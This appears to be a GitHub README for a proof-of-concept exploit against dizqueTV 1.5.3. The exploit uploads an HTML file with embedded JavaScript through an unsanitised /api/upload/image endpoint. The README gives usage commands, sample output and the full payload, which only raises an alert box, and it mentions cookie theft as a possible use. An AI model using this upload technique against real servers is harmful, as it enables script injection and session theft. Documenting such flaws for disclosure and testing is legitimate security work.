 # dizqueTV File Upload to XSS Exploit

## Overview
This exploit targets a file upload vulnerability in **dizqueTV** version 1.5.3. Due to insufficient sanitization in the file upload API, an attacker can upload arbitrary files, enabling potential **Cross-Site Scripting (XSS)** attacks. This exploit leverages the vulnerability to upload a crafted HTML file with embedded JavaScript.

**Exploit Author**: J3rich0123  
**Tested on**: Linux  
**Vendor**: [dizqueTV GitHub Repository](https://github.com/vexorian/dizquetv)  
**Version**: 1.5.3 (Required)  
**CVE**: N/A

## Vulnerable Component
The vulnerability resides in the file upload endpoint at `/api/upload/image`, which does not sanitize file contents or enforce strict file type restrictions. This allows the upload of files containing malicious code.

## Exploit Details
The exploit script creates and uploads an HTML file with a JavaScript-based XSS payload. Once uploaded, this payload can trigger on pages that render the file, potentially allowing the attacker to perform actions like cookie theft or redirection.

## Usage
### Prerequisites
- Python 3.x
- `requests` library

To install the required library:
```bash
pip install requests
```

Exploit Execution

Clone this repository.

Execute the exploit with the target URL as an argument:

```bash
Copy code
python exploit.py <target_url>
```

Example usage:

```bash
Copy code
python exploit.py http://localhost:8000/api/upload/image
```

Upon success, you’ll see confirmation messages indicating the file upload was successful.

Note: If the file renders in a browser with JavaScript enabled, the XSS alert will be triggered.

Example Output
plaintext
Copy code
Reading malicious file: xss.html
Uploading malicious file: xss.html
Exploit successful! Attempted to upload: xss.html
Server response: (Server response message here)
PoC HTML Payload
The xss.html payload file created by this exploit contains:

html
Copy code
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Payload</title>
    <script>alert("Hacked!!!");</script>
</head>
<body>
    <h1>Testing XSS Payload</h1>
    <p>If the alert shows, the XSS attack was successful!</p>
</body>
</html>
Remediation
This vulnerability has been reported to the vendor, and a patch will be released in the next version. The patch will address file type sanitization and restrictions.

Disclaimer
This exploit is intended for educational and ethical purposes only. Unauthorized use of this exploit may violate laws and regulations. Use it responsibly.

